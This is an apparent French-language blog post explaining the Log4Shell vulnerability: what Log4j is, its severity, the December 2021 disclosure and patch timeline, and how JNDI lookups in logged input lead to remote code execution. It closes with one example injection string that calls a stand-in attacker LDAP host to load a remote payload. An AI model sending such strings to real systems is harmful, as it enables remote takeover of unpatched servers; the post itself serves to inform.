 # Log4J, Log4Shell, LogJam mais kesako ?

On en entend parler partout.
Sur Twitter, sur LinkedIn, sur les blogs et forums de sécurité, la faille Log4J ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) / [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) pour les intimes) !

## Alors qu'est ce que log4j et qui est ciblé cette faille.

Log4J est le diminutif de "logging for java", il s'agit d'un outil de journalisation pour les programmes informatiques écrits en java.
C'est l'outil le plus couramment utilisé pour ce besoin, la plupart des programmes java l'utilise et c'est justement la popularité de cet outil, qui fait trembler internet ces derniers jours...
On le retrouve PARTOUT !! Apple, Amazon, IBM, Cloudflare, Twitter, Steam, Minecraft et [bien d'autre...](https://github.com/NCSC-NL/log4shell)

## Quels sont les impacts de cette faille ?

La faille log4j et l'une des plus grosse faille de sécurité découverte cette dernière décennie. Le score de criticité de celle-ci est au plus haut (CVSS 10/10) et permet une compromission complète de la machine cible.

Elle permet une [RCE ( Remote Code Execution )](https://en.wikipedia.org/wiki/Arbitrary_code_execution) c'est à dire, l'exécution de code, souvent malicieux, à distance.
Oui oui, sans authentification, sans mot de passe, juste avec un message dans un chat (ou n'importe quelle entrée utilisateur, comme un champs dans un formulaire), on demande au serveur, d'exécuter du code.


## Comment en est-on arrivé là ?

Le jeudi 9 décembre, la faille a été publiée sur internet, [aux yeux de tous](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
Sans laisser le temps aux développeurs de log4j de préparer la publication d'un patch de correction...

Le vendredi 10 décembre, la CVE est déclarée : https://nvd.nist.gov/vuln/detail/CVE-2021-44228
Un premier patch de correction de log4j est publié, mais la correction est incomplète et l'exploit toujours faisable.
Un second patch de correction est publié pour corriger la faille, mais il ne faudra que quelque jour aux pirates pour la déjouer,
ce qui donne lieu le 14 décembre à une nouvelle CVE (CVE-2021-45046)

Rapidement, une nouvelle version de log4j sort (2.16.0) et doit fixer de manière définitive ces deux CVE.

D'après Matthew Prince, CEO de Cloudflare, la première tentative d'exploitation de cette faille sur leurs infrastructures date du [1er décembre a 4:36:50 UTC](https://twitter.com/eastdakota/status/1469800951351427073) soit 9 jours avant que la CVE soit déclarée. Les recherches de possible compromission doivent donc être ciblé a partie de cette date.

Le vecteur d'attaque qui a été utilisé (la méthode), ne date pas de décembre 2021
[Des conférences en 2013 et 2016 lors de la blackhat US](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) avait déjà mis en lumière ce vecteur d'attaque.
Mais personne ne l'avait testé sur log4j...

## Mais alors concrètement, comment ça marche ?

La faille réside dans l'implémentation du module "Java Naming and Directory Interface" de log4j.
Ce module permet de charger dynamiquement du code distant via plusieurs protocole comme ldap, rmi, dns, etc...

Lorsque log4j va vouloir journaliser une donnée utilisateur (un message dans un chat, un champ dans un formulaire,  ..) plutôt que prendre la donnée au format texte pour la journaliser, log4j va l'interpréter en langage java résultant de la faille de sécurité.

Il est donc possible, de préparer un message spécifique pour injecter du code malveillant.
Par exemple, la commande suivante dans le chat du jeux Minecraft, va connecter toutes les personnes au serveur ldap "attackerserver.com" puis exécuter la fonction java "ExploitPayload"
```bash
${jndi:ldap://attackerserver.com:1389/ExploitPayload}
```

![](https://www.stormshield.com/wp-content/uploads/log4shell-1-1024x410.png)
